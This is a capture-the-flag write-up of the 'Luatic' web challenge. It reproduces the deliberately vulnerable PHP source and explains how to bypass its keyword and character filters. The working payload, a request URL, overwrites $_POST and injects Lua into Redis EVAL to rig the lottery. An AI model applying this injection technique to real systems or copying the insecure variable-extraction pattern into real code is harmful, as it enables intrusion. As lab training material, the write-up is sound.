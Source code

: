 # Description
Author: [@orange_8361](https://twitter.com/orange_8361)
```
Luatic
Win the jackpot!
54.250.242.183
```
# luatic.php
```php
<?php
    /* Author: Orange Tsai(@orange_8361) */
    include "config.php";

    foreach($_REQUEST as $k=>$v) {
        if( strlen($k) > 0 && preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)  )
            exit('Shame on you');
    }

    foreach(Array('_GET','_POST') as $request) {
        foreach($$request as $k => $v) ${$k} = str_replace(str_split("[]{}=.'\""), "", $v);
    }

    if (strlen($token) == 0) highlight_file(__FILE__) and exit();
    if (!preg_match('/^[a-f0-9-]{36}$/', $token)) die('Shame on you');

    $guess = (int)$guess;
    if ($guess == 0) die('Shame on you');

    // Check team token
    $status = check_team_redis_status($token);
    if ($status == "Invalid token") die('Invalid token');
    if (strlen($status) == 0 || $status == 'Stopped') die('Start Redis first');

    // Get team redis port
    $port = get_team_redis_port($token);
    if ((int)$port < 1024) die('Try again');
    
    // Connect, we rename insecure commands
    // rename-command CONFIG ""
    // rename-command SCRIPT ""
    // rename-command MODULE ""
    // rename-command SLAVEOF ""
    // rename-command REPLICAOF ""
    // rename-command SET $MY_SET_COMMAND
    $redis = new Redis();
    $redis->connect("127.0.0.1", $port);
    if (!$redis->auth($token)) die('Auth fail');

    // Check availability
    $redis->rawCommand($MY_SET_COMMAND, $TEST_KEY, $TEST_VALUE);
    if ($redis->get($TEST_KEY) !== $TEST_VALUE) die('Something Wrong?');

    // Lottery!
    $LUA_LOTTERY = "math.randomseed(ARGV[1]) for i=0, ARGV[2] do math.random() end return math.random(2^31-1)";
    $seed  = random_int(0, 0xffffffff / 2);
    $count = random_int(5, 10);
    $result = $redis->eval($LUA_LOTTERY, array($seed, $count));

    sleep(3); // Slow down...
    if ((int)$result === $guess)
        die("Congratulations, the flag is $FLAG");
    die(":(");
```
# Team token
```
Token: 7a70261c-xxxx-xxxx-xxxx-7a8a84c655f1
```
# Timeline
- Setup Docker container (of course :v)
- Clear all filters/tests/replacements to find the main solution to bypass lua `math.random` function and win the jackpot
- Bypass `preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)` test
- Bypass `str_replace(str_split("[]{}=.'\""), "", $v)` replacement
- Won the jackpot

# Final works
- To win the jackpot, we want to reset the `math.random` function by `math.random = function () returns 123 end`
so `math.random()` will return `123`, equal to `guess` we have sent
- To bypass `preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)` test, we use `/luatic.php?token=TEAM_TOKEN&guess=123&_POST[MY_SET_COMMAND]=set&_POST[TEST_KEY]=1&_POST[TEST_VALUE]=1`
so `$_POST` variable will be overwritten to `['MY_SET_COMMAND' => 'set', 'TEST_KEY' => '1', 'TEST_VALUE' => '1']`
and will be extracted to php variables
- To bypass `str_replace(str_split("[]{}=.'\""), "", $v)` replacement, we use `for k, v in pairs(math) do rawset(math, k, function() return 123 end) end` to reset `math.random` function
- Final payload: `/luatic.php?token=TEAM_TOKEN&guess=123&_POST[MY_SET_COMMAND]=eval&_POST[TEST_KEY]=for k, v in pairs(math) do rawset(math, k, function() return 123 end) end&_POST[TEST_VALUE]=0`

and got the Flag: `hitcon{Lua^H Red1s 1s m4g1c!!!}`

Please follow for more informations:
- https://github.com/orangetw/My-CTF-Web-Challenges#luatic
- https://redis.io/commands/eval

